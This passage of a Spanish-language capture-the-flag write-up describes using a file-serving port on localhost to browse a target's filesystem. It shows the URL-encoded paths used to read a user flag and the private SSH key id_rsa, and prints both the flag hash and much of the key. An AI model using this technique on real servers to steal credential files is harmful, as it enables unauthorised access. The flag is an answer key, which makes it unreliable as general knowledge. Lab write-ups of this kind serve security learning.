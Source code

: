 ```
<li><a href="sys/">sys/</a></li>
<li><a href="tmp/">tmp/</a></li>
<li><a href="usr/">usr/</a></li>
<li><a href="var/">var/</a></li>
</ul>
<hr>
</body>
</html>
```

Vemos que los 2 unicos puertos que nos lleva algun sitio es el 80 y 33, sabiendo que el 80 es de la pagina web, el 1337 sera nuestra clave para movernos entre directorios...

Si entramos dentro de este puerto nos apareceran los archivos del servidor, por lo que tendremos que irle añadiendo rutas a la URL para ir llendo a la flag del primer usuario...

Una vez que sabemos la ruta...

```
URL = http%3a//127.0.0.1%3a1337/home/saad/user.txt
```

> `Esa primera parte la codificamos en URL por si acaso`

Y veremos la flag del primer usuario...

> user.txt (flag1)

```
9a1ce90a7653d74ab98630b47b8b4a84
```

Despues si seguimos investigando en la `/home/` Veremos que hay un `.ssh` y que dentro de el esta el `id_rsa` privado por lo que podremos conectarnos por ssh con su clave privada...

```
URL = http%3a//127.0.0.1%3a1337/home/saad/.ssh/id_rsa
```

id\_rsa:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABA1J8+LAd
rb49YHdSMzgX80AAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDBbWMPTToe
wBK40FcBuzcLlzjLtfa21TgQxhjBYMPUvwzbgiGpJYEd6sXKeh9FXGYcgXCduq3rz/PSCs
48K+nYJ6Snob95PhfKfFL3x8JMc3sABvU87QxrJQ3PFsYmEzd38tmTiMQkn08Wf7g13MJ6
LzfUwwv9QZXMujHpExowWuwlEKBYiPeEK7mGvS0jJLsaEpQorZNvUhrUO4frSQA6/OTmXE
d/hMX2910cAiCa5NlgBn4nH8y5bjSrygFUSVJiMBVUY0H77mj6gmJUoz5jv96fV+rBaFoB
LGOy00gbX+2YTzBIJsKwOG97Q3HMnMKH+vCL09h/i3nQodWdqLP73U0PK2pu/nUFvGE8ju
nkkRVNqqO5m0eYfdkWHLKz13JzohUBBsLrtj6c9hc8CIqErf5B573RKdhu4gy4JkCMEW1D
xKhNWu+TI3VME1Q0ThJII/TMCR+Ih+/IDwgVTaW0LJR6Cn5nZzUHBLjkDV66vJRYN/3dJ5
bncTJ3dKFpec8AAAWQYx0osErJi/dcuK4vkpBkSG3N3iHsGeQh9KtrGHma9f5/l4HV1O2g
NpdxT+pG8ti5+pJmbA12WIILPWPmq8RlXJoPY2Hg6swPFtgB0KCLotz8XMjYTB0PMHpa4S
98bHQ0G0t3WtkYewKtGIe5J5kEw6YxGVg7/uXQVohACNoniByRMhX2HG6mkXV9p2zi9ym+
Zd7LYPSZ6FTKLouqJbpcADwX6YywSV8uXIGAnT6u5UJMU7EbQhextQYqPOzihsVDUL/uSw
quaPQYJ/8ZqBI5o3on+F2fVbNc7J/5t0gDd0tTzQDFZlMg3zJlnoVkxC+/NLuSrGrzC/52
1gAlLqjcVeGmzXESqWWI+4rF4dnVuwBcHDskZ8TbKEGueBjMX3FdafP0SAl7+gRQNp3OsW
VABMeWJmLDL+reNxAtsPTmDhXuDvoVfITx0V3Bu4UsRJpFl6rJpMgUyjeu3Dff9FjAqQRS
qvsCB1lPAmb50y6v2qveOHJav4DbP7KCYRNR5C1W5R74rDUbLusyWFApWxHVpTDdHY6Zba
+hmqT+kre2Qsg7fvBG7U8Fqe6jf1jVgSIMyUQ1UoowlmdBoP6/eI6Ce3p6lhqAfECb0mHT
Z5tvpxF3QjP6mOPTy1YabeCrsKWoTN821bZUAW0UO5OIGYoQZo5fo6u5g7kj1LmXNG15AU
ZAdKt56miOG5g4SsquDNVaJTQg7rsrVW3ghA4kE+BIRGmTuvKt5q4WZDB6gXXzJgEsZ5Kt
KbURhk1zzqxKprI+yYTrqmxki1EhS2V6qDlYoVscYnIZK9IDV/1c22nNEkSTWhKzHe+6A7
qWNMkOw9xaIdB8WV/yfCf2nOtAAdAYSl28r7c+WSoucqvVBEWhblTqz1oL+bYeDhqRWusP
e+gtkwODGaGQpUl793Eusk6vVYZni5xgOMDuERsREuT2ZsUP20AxVYw/mbUsOjeGpEoCGZ
UBwl2LeGGSDZgZJC+DLOj/Rg0uy9gaADI0Nrwz6ushxqFUg1RDV+WzFxIw9uDqFiL0gHwZ
FXiQLzmLQZ5X1JtWD2nqZwPnM66q9wOeMstYw8+8mJz5E/lTr80Nsde/eVYs3sY9STF+Ye
421hF21P2RLOYv4UM2aQ2hmfUb9MJ99Rj5UvpY83z4uUYu7Vmq2dMDcFsk7Zg8JdNDMg2O
GpgYRcLH44/iPrKRKdtdlVXILLKLjFau8TPzyhKfsa6/3H485Sc/YT94D+bRcx3uL+U003
```